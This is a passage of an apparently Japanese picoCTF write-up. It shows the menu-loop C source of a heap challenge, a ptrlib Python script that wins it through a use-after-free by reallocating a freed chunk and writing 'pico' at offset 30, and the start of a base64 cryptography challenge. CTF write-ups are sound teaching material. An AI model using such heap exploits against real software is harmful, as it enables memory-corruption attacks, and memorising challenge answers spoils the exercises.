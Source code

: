 ```c
        case 1:
            // print heap
            print_heap();
            break;
        case 2:
            alloc_object();
            break;
        case 3:
            // print x
            printf("\n\nx = %s\n\n", x->flag);
            fflush(stdout);
            break;
        case 4:
            // Check for win condition
            check_win();
            break;
        case 5:
            free_memory();
            break;
        case 6:
            // exit
            return 0;
        default:
            printf("Invalid choice\n");
            fflush(stdout);
        }
    }
}
```
heap2までとほとんど同じ。`free_memory`で`x`を解放し、`alloc_object`で`x`と同じサイズで`malloc`して、そこの30番目に`"pico"`を書き込む。
```python
#!/usr/bin/env python

import ptrlib as ptr

def connect():
    p = ptr.Process("./chall")
    # p = ptr.Socket("tethys.picoctf.net", 65386)
    return p


io = connect()
io.sendline(b"5")
io.sendline(b"2")
io.sendline(b"35")

payload = b""
payload += b"A" * 30
payload += b"pico"

io.sendline(payload)
io.sendline(b"4")

print(io.recvlineafter("YOU WIN!!11!!\n"))
```
# Cryptography
## interencdec
以下の内容のファイルが渡された。
```
YidkM0JxZGtwQlRYdHFhR3g2YUhsZmF6TnFlVGwzWVROclgya3lNRFJvYTJvMmZRPT0nCg==
```